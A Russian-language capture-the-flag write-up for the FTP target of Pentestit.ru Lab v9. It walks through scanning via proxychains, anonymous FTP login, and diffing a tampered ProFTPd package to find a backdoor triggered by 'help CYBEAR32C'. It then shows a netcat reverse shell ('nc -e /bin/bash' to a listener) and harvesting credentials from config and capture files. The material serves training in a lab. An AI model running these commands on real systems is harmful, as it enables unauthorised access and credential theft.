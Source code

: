 ## Получение флага FTP в лаборатории Pentestit.ru Lab v 9

Нашей следующей целью является FTP. Чтобы понять, куда дальше двигаться, нам нужно получить возможности, которые у нас есть на фтп. 

![VirtualBox_Kali2016.2_21_09_2016_00_04_37](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_21_09_2016_00_04_37.png)

Просканируем этот хост посредством nmap через proxychains, выполним команду proxychains `nmap -sT -PN -n -sV 172.16.0.4` . Результат сканирования дал нам следующее:

![VirtualBox_Kali2016.2_21_09_2016_00_06_59](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_21_09_2016_00_06_59.png)

У нас открыты порты 21 и 22, нас конечно же интересует порт 21, выбор у нас тут не большой. Пробуем использовать пароли, которые мы получили из бекапа паролей прокси ранее, для входа на ftp. Увы, ни один не подходит. Тогда пробуем найти какой-то эксплоит для версии ProFTPd, но увы все выглядит так, как будто дырки пропатчены. Остается анонимный вход. Пробуем - вводим команду `proxychains ftp -p 172.16.0.4` и, в качестве логина вводим anonymous, и радуемся сообщению системы, что анонимный доступ разрешен, вводим любой пароль и входим на ftp. 

![VirtualBox_Kali2016.2_20_09_2016_21_59_57](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_21_59_57.png)

Далее нам нужно осмотреться и понять, что у нас имеется в нашем распоряжении.  

![VirtualBox_Kali2016.2_20_09_2016_22_00_55](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_00_55.png)

И нашему вниманию предстает папка `dist`. Заглянем в нее!

![VirtualBox_Kali2016.2_20_09_2016_22_01_41](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_01_41.png)

А в ней deb пакет и архив с дистрибутивом proftpd. Вот спросите вы: "А зачем тут лежат эти файлы?". Меня это тоже удивило. Думаю на них стоит взглянуть, нет ли в этих дистрибутивах каких либо изменений. 

Скачиваем эти дистрибутивы. Посредством `proxychains` это очень легко, так как работают все команды ftp, как будто мы внутри сети. Так что, воспользовавшись командой get название_файла (этих команд придется выполнить 2), выкачиваем сразу на свою машину эти два файла. 

![VirtualBox_Kali2016.2_20_09_2016_22_02_27](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_02_27.png)

Но для того чтобы сравнить и найти изменения в файлах, нужно скачать аналогичный пакет с официальных репо.  ![VirtualBox_Kali2016.2_20_09_2016_22_07_40](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_07_40.png)

Проходимся по скачанным файлам binwalk, убеждаемся, что это архивы и deb пакет. 

![VirtualBox_Kali2016.2_20_09_2016_22_11_35](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_11_35.png)

Качаем оригинальный proftpd версии  1.3.5 - конечно же сам архив с исходниками весит намного меньше того файла что мы получили с ftp.

![VirtualBox_Kali2016.2_20_09_2016_22_13_30](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_13_30.png)

Кладем в одну папку оба файла и распаковываем их. После распаковки в дело вступает binwally - очень удобный инструмент для поиска различий в файлах, написанный на python. Репозиторий тут https://github.com/bmaia/binwally

 ![VirtualBox_Kali2016.2_20_09_2016_23_49_50](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_49_50.png)

Выполняем команду python `binwally.py ~/PENTESTIT/analyze/proftpd-dfsg-1.3.5_orig ~/PENTESTIT/analyze/proftpd-dfsg-1.3.5_pentestit/ | grep -E -v "ignored|matches|unique"`  и получаем небольшой список отличающихся файлов и, используя diff, просматриваем по аналогичным путям обе версии файла. Просморев так много файлов, я наткнулся на изменения в help.c и, сравнив два файла, понял что искал именно это, так как в строке присутствовало название организации большими буквами (потом узнал, что другие искали по названию организации используя grep). Но в мою голову такая мысль не пришла, и я сделал все как делают люди при анализе изменений, без всякого читерства и предположений.

![VirtualBox_Kali2016.2_20_09_2016_22_44_34](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_44_34.png)

Тут видно, что при вводе команды CYBEAR32C как аргумент для команды help при соединении к ftp можно получить доступ к шеллу. Хм, забавно запрятан бекдор, подумал я. И решил взглянуть на окружаюшие строки в help.c.

![VirtualBox_Kali2016.2_20_09_2016_22_46_05](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_46_05.png)

Открываем vim сразу на нужной строке 131, которая фигурирует в diff. 

![VirtualBox_Kali2016.2_20_09_2016_22_46_31](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_46_31.png)

Вот измененный пакет и тут присутствует эта строка, а ниже представлен оригинальный код.

![VirtualBox_Kali2016.2_20_09_2016_22_47_38](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_47_38.png)

Как видим строка отсутствует. Значит мы на правильном пути. Да уж, очень интересно! Пробуем подконнектиться посредством telnet на 21 порт, так как тут также есть возможность работы через telnet соединение. Набираем команду `proxychains telnet 172.16.0.4 21` и попадаем на ftp. Теперь нам нужно проинспектировать работу команды `help CYBEAR32C`. 

![VirtualBox_Kali2016.2_20_09_2016_22_53_44](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_22_53_44.png)

Пытаемся набрать просто команду `CYBEAR32C`, но она без help не срабатывает. Тогда набираем команду `help CYBEAR32C` и наблюдаем очень странную картину. Вроде как очень похоже на шелл, но при вводе команд не получается увидеть результата, т.е. вывода нет. Значит нам нужно попытаться при помощи nc организовать нормальный шелл. Для этого выпоним следующие действия:

![VirtualBox_Kali2016.2_20_09_2016_23_32_19](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_32_19.png)

 На машине ssh запускаем слушатель `nc -vlp 8989`, а из шелл запускаем команду `nc -e /bin/bash 172.16.0.2 8989`. И у нас все получается с первого раза. Теперь у нас есть полноценный шелл и бекдор, заложенный в ProFTPd, работает!

![VirtualBox_Kali2016.2_20_09_2016_23_31_39](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_31_39.png)

Теперь как видим при вводе команды, вывод получается нормально! Остается просмотреть файлы и определиться с содержимым, а также найти флаг!

![VirtualBox_Kali2016.2_20_09_2016_23_33_02](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_33_02.png)

Проходим по папкам и видим, что есть интересные папки, в которых можно поискать полезную информацию.  

![VirtualBox_Kali2016.2_20_09_2016_23_35_11](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_35_11.png)

К текущему моменту, когда я пишу прохождение, в папке уже куча файлов созданных участниками. Но целевыми файлами тут являются `router-config.old` и `trouble.cap`.

![VirtualBox_Kali2016.2_20_09_2016_23_35_34](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_35_34.png)

Выполняем команду cat router-config.old и просматриваем содержимое файла.

![VirtualBox_Kali2016.2_20_09_2016_23_36_52](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_36_52.png)

Ниже замечаем пароль и логин пользователя. 

![VirtualBox_Kali2016.2_20_09_2016_23_37_17](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_37_17.png)

Эти данные нам возможно пригодятся в будущем, но пока идем далее и продолжаем собирать информацию. Смотрим, что же может быть интересного в trouble.cap и видим также логин и пароль пользователя `m.barry`, запоминаем, записываем, складываем в отдельный документ все что нашли для будущего использования.

![VirtualBox_Kali2016.2_20_09_2016_23_41_52](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_41_52.png)

В этом дампе видим некое перемещение скрипта на python, пока что нет предположений, для чего это нужно.

![VirtualBox_Kali2016.2_20_09_2016_23_43_16](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_43_16.png)

Идем дальше. Заходим в папку old, смотрим содержимое файла ftp_test.txt и видим наш заветный флаг от FTP. Идем и фиксируем получение флага в профиле! И так у нас есть доступ к ftp, а также логин и пароль для доступа на роутер, но мы уже и так получили флаг CISCO. Так что эти данные могут нам пригодиться в других направлениях.

![VirtualBox_Kali2016.2_20_09_2016_23_45_23](https://github.com/CyberLight/writeups/blob/master/PENTESTIT.RU_LAB_9/FTP/imgs/VirtualBox_Kali2016.2_20_09_2016_23_45_23.png)

